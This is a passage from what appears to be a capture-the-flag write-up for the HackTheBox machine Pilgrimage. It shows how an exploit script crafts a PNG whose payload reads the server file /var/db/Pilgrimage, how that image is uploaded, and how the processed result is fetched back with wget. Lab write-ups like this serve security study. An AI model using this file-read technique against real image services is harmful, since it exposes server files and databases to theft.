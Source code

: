 - Execute the exploit code to generate a PNG file which content the payload to read /var/db/Pilgrimage
```
python generate.py -f "/var/db/Pilgrimage" -o exploit.png
```
- Upload Image with the payload which read /var/db/Pilgrimage --> Success
![](./IMG/29.png)
- Check the image in web service
- Download it to host 
```
wget http://pilgrimage.htb/shrunk/64ca244f96925.png
```